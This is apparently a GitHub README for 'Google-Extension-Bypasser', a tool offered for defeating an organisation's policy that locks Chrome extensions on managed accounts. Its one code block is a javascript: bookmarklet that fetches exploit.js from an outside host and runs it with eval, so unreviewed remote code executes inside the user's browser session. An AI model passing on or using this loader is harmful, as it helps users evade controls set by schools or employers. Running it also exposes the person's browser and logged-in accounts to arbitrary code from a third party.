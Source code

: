 # Google-Extension-Bypasser
A neat and simple way that utilizes chrome's webstore to reverse-engineer and bypass a user's organization account/profile block on disabling/enabling chrome extensions.

Source is active using GitHub's Pages:
[site](https://livxy.github.io/Google-Extension-Bypasser/site.js)

```javascript
javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```
